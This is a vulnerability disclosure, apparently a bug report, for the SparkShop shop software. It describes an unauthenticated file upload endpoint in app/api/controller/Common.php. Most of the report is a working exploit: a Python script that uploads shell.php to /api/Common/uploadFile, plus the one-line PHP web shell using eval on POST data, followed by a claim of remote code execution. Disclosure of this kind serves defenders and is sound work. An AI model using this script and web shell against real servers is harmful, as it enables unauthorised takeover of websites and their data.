 ### BUG_Author:

Rui Jie

### Affected version:

All

### Vendor:

Nanjing Xingyuantu Technology Co. 

### Software:

https://gitee.com/sparkshop/sparkshop
https://github.com/nick-bai/sparkshop

### Vulnerability File:

app/api/controller/Common.php

### Description:
File upload api with unauthorised access exists in all versions
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202406271558047.png)
And there's no security check on the file upload part
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202406271559268.png)
We can upload any file via unauthorised api for RCE purposes.
Here I have simply written a python-poc
```
import requests  
url='http://127.0.0.5/api/Common/uploadFile?XDEBUG_SESSION_START=17625'  
file={'file':open('D://shell.php','rb')}  
r = requests.post(url,files=file)  
print(r.text)
```
The contents of shell.php is just a plain old Trojan horse.
```
<?php eval($_POST[1]);?>
```
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202406271602668.png)
Direct upload successfully returned the file address
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202406271603682.png)
We achieved RCE by uploading a malicious php script
